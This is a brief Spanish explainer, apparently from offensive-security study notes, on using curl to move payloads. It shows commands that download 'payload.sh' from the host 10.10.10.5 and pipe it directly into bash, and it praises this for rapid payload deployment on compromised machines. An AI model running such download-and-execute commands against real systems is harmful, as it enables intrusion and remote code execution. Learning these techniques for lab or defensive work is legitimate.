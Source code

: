 ¿Qué es curl?

curl es una utilidad de línea de comandos para transferir datos desde o hacia un servidor usando protocolos como HTTP, HTTPS, FTP, etc.
En este contexto, se usa para descargar o enviar un payload directamente desde la terminal, por ejemplo:

# Descargar un script desde un servidor y guardarlo
curl http://10.10.10.5/payload.sh -o payload.sh

# Descargar y ejecutar en el momento (si la víctima lo permite)
curl http://10.10.10.5/payload.sh | bash

Ventajas:

    Evita abrir manualmente un navegador.

    Permite integración en un solo comando para ejecución remota.

    Útil para despliegue rápido de payloads en máquinas comprometidas.